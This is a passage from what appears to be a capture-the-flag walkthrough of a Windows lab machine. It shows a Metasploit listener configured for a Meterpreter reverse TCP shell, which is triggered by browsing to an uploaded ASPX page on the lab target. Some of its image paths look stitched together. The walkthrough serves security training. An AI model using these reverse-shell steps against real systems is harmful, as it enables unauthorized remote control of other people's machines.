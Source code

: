 ###### output

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Devel/Screenshots/putdevel.png)

We then start a listener in Metasploit,

###### code 

```sh
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 4445
set ExitOnSession false
exploit -j
```

###### output
![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Devel/Screenshots/msfconsoledevel.png)

Then we navigate to the browser by browsing [http://10.10.10.5/devel.aspx](http://10.10.10.5/devel.aspx) will trigger
the reverse shell
